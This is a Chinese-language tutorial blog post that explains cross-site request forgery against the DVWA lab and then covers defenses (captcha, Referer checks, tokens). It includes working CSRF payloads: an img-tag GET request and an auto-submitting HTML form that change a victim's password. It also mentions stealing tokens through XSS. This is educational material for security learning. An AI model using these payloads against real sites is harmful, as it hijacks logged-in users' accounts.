 ```yaml
---
title: CSRF学习
date: 2016-04-19 18:45:30
categories: 安全 
tags: Web安全
---
```

## 一、简介
CSRF(跨站点请求伪造)，即攻击者构造一个URL，通常这个URL是可以完成某种动作，如添加管理员，删除文章等等。然后发送给已登录的用户，当该用户点击此URL时就会触发攻击。
以DVWA为例：
当管理员更改密码时，以GET方式提交链接如下
`http://xxx.com/DVWA/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#`  
分析这个链接可以得知。password_new和password_conf为新密码和确认密码，如果此时构造一个URL，如`http://xxx.com/DVWA/vulnerabilities/csrf/?password_new=mypassowrd&password_conf=mypassowrd&Change=Change#`
发送给已经登录dvwa的管理员，当管理员点击此链接时，就会更改密码为mypassword，在这里不用再通过Web界面进行操作。
<!--more-->
所以CSRF利用时必须要确保被攻击者已经登录，并且要访问攻击URL。
## 二、利用方式
1. GET方式的CSRF  
前面的例子便是GET类型的CSRF，所有的参数都在URL中，利用方式也十分简单，只需发送URL即可，如果细心一点就会发现，所以可以在自己的网站新建一个页面，URL为`www.xxx.com/csrf.html`内容为`<img src=http://xxx.com/DVWA/vulnerabilities/csrf/?password_new=mypassowrd&password_conf=mypassowrd&Change=Change /> ` 当其他人访问`www.xxx.com/csrf.html`就会发起一次请求。
从而造成攻击

2. POST方式的CSRF
使用POST方式时，虽然在URL不再显示参数，但是仍然可以利用CSRF。
例如，更改密码操作时，post数据如下：
```
POST /DVWA/vulnerabilities/csrf/ HTTP/1.1
Host: 127.0.0.1
Content-Length: 58
Pragma: no-cache
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/50.0.2661.86 Safari/537.36
Content-Type: application/x-www-form-urlencoded
DNT: 1
Referer: http://127.0.0.1/DVWA/vulnerabilities/csrf/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: security=low; PHPSESSID=92rjonocjdna01q1t002vams90
password_new=password&password_conf=password&Change=Change
```
此时，可以创建一个autosubmit.html，自动提交数据，如下
```
<html>
  <body>
      <form id="autosubmit" action="http://127.0.0.1/DVWA/vulnerabilities/csrf/#" method="post">
          <input type="password" name="password_new" value="password2">
          <input type="password" name="password_conf" value="password2">
          <input type="action" value="Change" name="Change"> -->
      </form>
      <script type="text/javascript">
        var autosubmit=document.getElementById("autosubmit")
        autosubmit.submit();
      </script>
  </body>
</html>
```
当打开此页面时，就会自动向`http://127.0.0.1/DVWA/vulnerabilities/csrf/#`提交表单。
所以POST方式仍然可以造成CSRF。

## 三、防御
### 1.验证码
当使用验证码时，由于不知道验证码的内容，就无法利用，有效的防御了CSRF。

### 2.验证refer
HTTP Referer是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器我是从哪个页面链接过来的，服务器藉此可以获得一些信息用于处理。
比如当更改密码操作时，refer为`http://127.0.0.1/DVWA/vulnerabilities/csrf/`。如果是csrf攻击，则页面就来自与被攻击者打开的页面，例如`http://xxx.com/csrf.html`。通过检查refer值，就可以判断是否为csrf。但是服务器并不是任何时候可以接受到refer值。

### 3.Token
使用token可以有效防御。完成一次csrf攻击必须要有正确的url,如果有一项参数不正确，就无法利用。token是一种身份标记。当用户登录网站时，服务器机会随机产生token值给用户，并保存在session中，当用户有重要操作时，就会一起发送token值。服务器收到后会与session中的token值进行对比，如果一致则通过，否则就认为是非法请求。
例如当用户更改密码时，post数据中就会一起发送user_token值。
```
password_new=password&password_conf=password&Change=Change&user_token=343e19282cbc3e91a774f452de3d36de
```
### 4.其它
### 1.xss+csrf
当网站使用token防御时，如果存在xss漏洞，那么可以就可以进行csrf攻击。利用xss获取token。
### 2.csrf检测工具
[CSRF-Request-Builder](https://github.com/TheRook/CSRF-Request-Builder)  
[CSRFTester](https://www.owasp.org/index.php/CSRFTester)

** 参考**

 - 《白帽子讲Web安全》
 - 《Web安全深度剖析》
 -  [wooyun知识库](http://wiki.wooyun.org/)
